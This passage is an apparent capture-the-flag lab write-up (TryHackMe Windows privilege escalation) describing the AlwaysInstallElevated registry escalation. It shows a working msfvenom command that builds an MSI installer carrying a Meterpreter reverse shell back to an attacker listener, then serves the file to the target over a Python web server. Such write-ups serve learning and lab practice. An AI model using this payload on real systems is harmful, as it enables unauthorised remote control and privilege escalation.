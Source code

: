 No Answer.

## TASK 4 : Registry Escalation - AlwaysInstallElevated


### Click 'Completed' once you have successfully elevated the machine

First, looking the  registry key is well set to 1 :

![AlwaysInstallElevated Registry Key](/images/thm/windowsprivescarena/windowsprivescarena_5.png)
_AlwaysInstallElevated Registry Key_

Then creating a msi reverse shell installer with msfvenom :

```console
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.199.49 lport=4545 -f msi -o setup.msi
```
{: .nolineno }

With a simle HTTP python Server , i downloaded the file on the target then ran the command :

![Download Malicious File](/images/thm/windowsprivescarena/windowsprivescarena_6.png)
_Download Malicious File_
